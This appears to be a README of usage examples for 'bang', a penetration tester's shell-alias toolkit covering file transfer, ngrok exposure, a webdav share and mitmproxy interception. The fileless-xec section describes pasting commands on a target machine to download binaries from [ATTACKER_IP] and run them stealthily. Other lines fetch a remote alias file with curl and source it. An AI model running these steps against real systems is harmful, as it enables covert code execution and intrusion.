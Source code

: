 # Examples

Some examples of bang usage

## `gitar`

### Share files

Start file sharing:
```
bang.gitar $AA $AP
```
This will start a `gitar` http server and copy to your clipboard a command line to run on remote. Run it, you can now upload and download file from remote easily (without further installations [see](https://github.com/ariary/gitar/blob/main/README.md#tldr---and-listen-music)). 

#### Alternative 1 - Daemon
Launch gitar as a daemon, and kill it later when you want (=>no logs)
1. Start gitar: `bang.gitar.daemon $AA`(copy command line)
2. paste command line on remote
3. Do your stuff (`push`,`pull`, etc)
4. kill gitar: `bang.gitar.kill`

#### Alternative 2 - For `/bin/sh`
by default, `gitar` use completion. `/bin/sh` doesn't have `complete` enable. Hence launch gitar without this feature:
```
bang.gitar.no-completion
```

### Share files safely

Same as above + inside a container + using https for encryption

Start safe file sharing:
```
bang.gitar-safe $AA $AP
```

### Expose local file on internet

`ngrok` enable us to share local port on the internet. The idea is to start `gitar` server locally and then expose the local port on internet using `ngrok`

#### "Safe" version
***~>*** Expose local **HTTPS server** running in a **container**

1. Expose the server port on internet: `bang.expose-https 9237`
`ngrok` output the internet reachable address for your server. Note it (use `https` one preferably)
2. Start `gitar` HTTPS server in container: `bang.gitar-safe-override [NGROK_HTTPS_URL]`

If you have a browser you could now access to files on `[NGROK_HTTPS_URL]/pull`

If you have a shell you could load shortcut to upload/download file with:
```bash
curl -s [NGROK_HTTPS_URL]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

#### "Unsafe" version
***~>*** Expose local **HTTP server**

1. Expose the server port on internet: `bang.expose 9237`
`ngrok` output the internet reachable address for your server. Note it (use `https` one preferably)
2. Start `gitar` HTTP server : `bang.gitar-override [NGROK_HTTPS_URL]`

If you have a browser you could now access to files on `[NGROK_HTTPS_URL]/pull`

If you have a shell you could load shortcut to upload/download file with:
```bash
curl -s [NGROK_HTTPS_URL]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

*Notes: You could also use `python3 -m http.server 9237` to launch a server (only for "download file" use case)*

## `fileless-xec`

### Exec binary from a local HTTP server

This will launch an http server (to serve the local binary) and copy the `fileless-xec` command to paste on target machine:
```
bang.flx.client.cpy [ATTACKER_IP] [TARGET_PORT] [BINARY_NAME]
```
Now paste the command on target machine (to dl binary and stealthy execute it)

### Copy line to launch `fieleless-xec` stealth dropper

This will copy command line on your clipboard to launch fileless-xec on remote. (Previously, uploaded it to the remote machine)

```
bang.flxscpy
```

### Send a local file to remote `fileless-xec` to stealthy run it

This will send a local binary to a remote listening `fileless-xec`. The binary will be then executed (stealthy) on remote

```
bang.flxssend [TARGET_IP] [TARGET_PORT] [binary]
```

## Webdav server

[see](https://blog.ropnop.com/docker-for-pentesters/#example-6---serving-files-over-webdav)

This enable us to share all files of current directory trough a webdav server

```
bang.webdavhere
```

You can now access file from a remote machine (Windows) with the UNC path: `\\[ATTACKER_ADDR]@[ATTACKER_PORT]\share`

You could eventually expose server behind a internet address using `ngrok` (if you are behdin an NAT for exemple):
```
bang.expose 8080
```
Access file: `\\[NGROK_URL]@\share`

## Get the weather of your city

```
bang.fun.weather [CITY]
```

## Intercept request with command line

We will use `mitm-proxy` which enable us to capture HTTP flow.

1. Set up your proxy:
    * If you want to catch request to a specific domains: `bang.mitmproxy.intercept.request.domain [DOMAIN]`
    * If you want to catch all request: `bang.mitmproxy.intercept.request`
2. Perform a curl request trough your proxy: `bang.proxycurl http://[DOMAIN]`

***TIPS:*** You could use alias `pup.script` to parse the response (html) and get only script code

### Modify request
You will catch it in your mitm-proxy. Navigate over it, press `<ENTER>`
To edit it press `e` and select the field you want to modify.
When you have finished your modification: `<ECHAP>`, then press `q`, then press `q`again (requests view) and press `a` to perform the request

### Repeat request

[See](https://docs.mitmproxy.org/stable/mitmproxytutorial-replayrequests/)